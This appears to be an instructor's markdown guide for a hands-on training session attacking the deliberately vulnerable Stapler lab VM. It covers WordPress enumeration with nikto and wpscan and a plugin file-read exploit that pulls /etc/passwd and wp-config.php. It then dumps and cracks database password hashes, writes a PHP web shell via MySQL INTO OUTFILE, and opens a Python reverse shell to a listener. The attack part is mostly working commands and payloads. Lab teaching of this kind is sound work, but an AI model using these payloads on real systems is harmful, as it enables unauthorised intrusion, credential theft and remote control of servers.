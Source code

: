 ```yaml
---
author: bhero
topic: dojo
---
```


Attack and exploit portion of the Dojo

# Attacking

Pull everyone together to discuss what they found, ask how they did it

Replicate as per walkthrough if required - what trolls did people find

Use the whiteboard for this section to formulate a picture of the services.

ASK:
1. did anyone brute force in?
2. did anyone get in another way? - How far?
3. did people find WP site?
4. did people try login against mysql?



key notes before attack - the plugin is vulnerable to LFI
This allows access to root dB creds, with this we can get full shell access.

This section varies with skill of audience, many folks may just want a demo others hints.

Prefeered vector is progromatic exploit as audience are devs

can also steal/guess username and break password - cover how to do this via hydra tutorial

allow 30 mins

explain there is way in with a code vulnerability, show exploit dB and searchsploit


Attack the webserver via wordpress upload.
get the nikto scan: (set the var STAPLER_IP)
```
nikto -h https://$STAPLER_IP:12380/blogblog/ > HTTPSblogblog.txt
```

start scripts to identify the wp_users and the plugins:

```
wpscan --url https://$STAPLER_IP:12380/blogblog/ --enumerate u --disable-tls-checks -o wpscan_users.txt
```
```
wpscan --url https://$STAPLER_IP:12380/blogblog/ --enumerate ap --disable-tls-checks --plugins-detection aggressive -o wpscan_plugins.txt
```

while running show the dir listing issue and visit the plugins url: 
https://192.168.56.104:12380/blogblog/wp-content/plugins/

poke about - highlight the uploads:
https://192.168.56.104:12380/blogblog/wp-content/uploads/

mention plugins are usually the weakness

use searchsploit:
```
searchsploit wordpress plugin video advanced
```

read in terminal
```
less /usr/share/exploitdb/exploits/php/webapps/39646.py 
```

explain that it forces an upload of an 'image' because $thumb not secure, no file type check implemented. - check the inputs would fix this.

a POC:
https://192.168.56.104:12380/blogblog/wp-admin/admin-ajax.php?action=ave_publishPost&title=random&short=1&term=1&thumb=/etc/passwd`

go to uploads and view the picture
explain it is text not jpg, so we curl

example:
```
curl -k https://$STAPLER_IP:12380/blogblog/wp-content/uploads/108293608.jpeg
```

now we check the wp-config because it has dB access details:
https://192.168.56.104:12380/blogblog/wp-admin/admin-ajax.php?action=ave_publishPost&title=random&short=1&term=1&thumb=../wp-config.php


get mysql root password onliner example:

curl -k https://$STAPLER_IP:12380/blogblog/wp-content/uploads/1006632345.jpeg


login and get passwords

```
mysql -h $STAPLER_IP -u root -pplbkac 
use wordpress;
select user_login,user_pass from wp_users;
```

close the connection and get the editied file: [wp_users.txt](/assets/vulnhub_stuff/stapler/wp_users.txt)

break the passwords with:

john wp_users.txt -wordlist=/usr/share/wordlists/rockyou.txt
this would let you login, but we all use super big passwords right?

so we won't wait, lets revisit the exploit to get the server root of the webserver via default config, explain apache config

https://192.168.56.104:12380/blogblog/wp-admin/admin-ajax.php?action=ave_publishPost&title=random&short=1&term=1&thumb=/etc/apache2/sites-enabled/000-default.conf

curl it to see DocumentRoot /var/www/https can be enumerated from /etc/apache2/sites-enabled/000-default.conf

login again and pop a wbshell in

```
mysql -h $STAPLER_IP -u root -pplbkac 
select "<?php echo shell_exec($_GET['cmd']);?>" into outfile '/var/www/https/blogblog/wp-content/uploads/mysql-shell.php';
```

check it works example:

https://192.168.56.105:12380/blogblog/wp-content/uploads/mysql-shell.php?cmd=ls


time to get a shell:
set listner on port 21 
then go here:
https://192.168.56.104:12380/blogblog/wp-content/uploads/system-webshell.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.1",21));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

spawn bash:
``` sh
python -c 'import pty; pty.spawn("/bin/bash")'
```

ctrl^Z it and get a ptty:
```
stty raw -echo
fg
```

do stuff, show execution!

## Recommended Resources

tutorial site for reverse shells

code injections
searchsploit
hydra tutorial for brute forcing

next up [Pwning](Stapler-Dojo-Part-5-Exercises.html)